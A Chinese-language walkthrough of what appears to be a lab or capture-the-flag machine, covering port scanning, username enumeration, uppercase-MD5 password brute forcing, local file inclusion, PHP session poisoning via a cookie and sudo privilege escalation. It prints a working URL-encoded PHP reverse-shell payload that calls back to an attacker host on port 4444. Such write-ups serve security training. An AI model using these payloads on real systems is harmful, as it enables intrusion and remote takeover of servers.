[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.180 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

只得到了端口80

分别进行TCP详细扫描，漏洞扫描和UDP扫描

```
nmap -sT -sC -sV -O -p80 192.168.174.180 -oA /nmapscan/tcp
nmap --script=vuln -p80 192.168.174.180 -oA /nmapscan/vuln
nmap -sU --top-ports=100 192.168.174.180 -oA /nmapscan/udp
```

不过都没有什么有用信息

# 端口分析

```
gobuster dir -u "http://192.168.174.180" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
dirb http://192.168.174.180 /usr/share/wordlists/dirb/big.txt
```

用gobuster和dirb两种工具进行扫描，但是没什么有效信息

- 先访问80端口页面



这个页面有点奇特，源代码没有任何信息，用户名和密码怎么输都不会回显信息，这样的话sql注入就不太行了，不过时间盲注倒是可以，但前提还是确认一下能不能进行sql注入

## bp抓包

先用bp抓包看一下是否有响应中的信息没有显示



发现还真有，而且只提示了用户名错误，说明可能用户名和密码是分别报错的，我们可以先对用户名进行爆破或者猜测

- 试了试root，admin等常见用户名，发现admin是一个用户名



这时又给出了新的报错，大概意思是密码是hash值，在实际过程中，即使用hash值也不能爆破成功，原因是真的密码是hash的大写，默认字典被hash加密后的值是小写

```
while read pwd; do echo -n "$pwd" | openssl dgst -md5 | awk '{print toupper($2)}'; done < pass.txt > hash_upper.txt
```

1. `while read pwd; do ... done < pass.txt` 循环读取 `pass.txt` 每一行，每行内容存入变量`pwd`
2. `echo -n "$pwd"` 输出密码，**`-n` 不追加换行符！非常关键**，如果带`\n`算出来 hash 直接错误
3. `openssl dgst -md5` 计算字符串 MD5 哈希。

> 换成 sha256：`openssl dgst -sha256`

1. `awk '{print toupper($2)}'` openssl 输出格式是 `MD5(stdin)= xxxxx`，`$2`取哈希串；`toupper()`转大写。
2. `> hash_upper.txt` 全部结果输出保存到 `hash_upper.txt`

- 得到hash后的词典后，可以使用bp进行爆破，或者hydra等工具也可以



输入密码



成功登录，有一个搜索框和一个关于cookie的链接



在搜索框搜一下/etc/passwd，发现存在文件包含漏洞，但是没有可以上传文件的地方

- 一个新的思路，包含用来存储用户session的文件，从而获取shell，LFI → RCE 的通用思路就是：**找一个你既能写、又能被 include 的文件**。

session文件的默认保存位置由php.ini文件中的`session.save_path`来决定，在linux中一般为：

```
/tmp
/var/lib/php/sessions
```

session文件名格式固定：`sess_` + 会话 ID（即 Cookie 里的 `PHPSESSID`）



得到一些输出的内容，这些是**服务器磁盘上 session 文件的原始内容**。 PHP session 文件存储格式：`变量名|类型:长度:"值";`

- user_pref的值也在响应包中出现，并且 **user_pref 字段**也是cookie中的值，网站会自动读取 Cookie 里 user_pref，写入 session 文件。同时当前%2F经过url解码后刚好是/，所以这个应该是我们可控输入的地方

```
%3C%3Fphp%20phpinfo%28%29%3B%3F%3E
```

尝试上传<?php phpinfo();?>



发现有回显，说明是可行，接下来写一个uel编码的反弹shell

```
<?php exec('/bin/bash -c "bash -i >& /dev/tcp/192.168.174.128/4444 0>&1"');?>
%3C%3Fphp%20exec%28%27%2Fbin%2Fbash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E174%2E128%2F4444%200%3E%261%22%27%29%3B%3F%3E
```

成功拿到shell



进行一些命令，拿到一些tty，运行一些

```
sudo -l
```



发现一些可直接以root身份执行的命令

- 在GTFOBins找一下



发现有对应命令可以使用



成功提权